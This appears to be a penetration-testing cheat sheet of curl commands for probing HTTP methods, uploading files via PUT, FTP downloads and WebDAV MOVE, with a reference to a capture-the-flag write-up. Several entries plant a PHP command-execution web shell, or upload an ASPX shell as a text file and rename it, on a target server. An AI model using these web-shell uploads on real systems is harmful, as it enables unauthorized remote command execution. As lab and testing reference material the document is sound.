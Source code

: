 # Curl

#### Enumerate HTTP methods 
```bash
 # curl -v -X OPTIONS http://172.168.1.10/test

 -v : Used for debugging
 -X : Specifies a custom request method
```

#### Upload a php file 
```bash
 # curl -v -X PUT -d "<?php phpinfo();?>" http://172.168.1.10/test/test.php

 -d : Sends the specified data in a POST request to the HTTP Server

 Upload file and then test that it is there
 # curl -X PUT http://xx.xx.xx.xx/df.txt -d @cmdasp.aspx
 - Uploading an aspx file when it is not allowed via the put command 
 
 # curl -X PUT http://xx.xx.xx.xx/df.txt -d @test.txt 
 Ref: http://0xdf.gitlab.io/2019/03/06/htb-granny.html 
 - The -d @text.txt syntax says that the data for the request should be the contents of the file text.txt
 
 # curl http://xx.xx.xx.xx
```

#### Upload a PHP shell 
```bash
 # curl -X PUT -d '<?php system($_GET["cmd"]);' http://172.168.1.10/test/cmd.php

 # To run the file

 # curl "http://172.168.1.10/test/cmd.php?cmd=ls%20-lha"
```

#### Download files from a FTP server
```bash
 # curl -u ftpuser:ftppass -O ftp://ftp_server/public_html/users.txt

 -u : Specifies the username and password
 -O : Saves output to local director
```

#### To access an https site unsecurely
 ```bash
 # curl -k, --insecure 
 
 -k : Process the url insecurely and ignore ssl errors
 ```
 
#### Using the MOVE method via curl
```bash
 # curl -X MOVE -H 'Destination:http://xx.xx.xx.xx/Oxdf.aspx' http://xx.xx.xx.xx/0xdf.txt 
 
 -H : <header/@file> Pass custom header(s) to server 
```

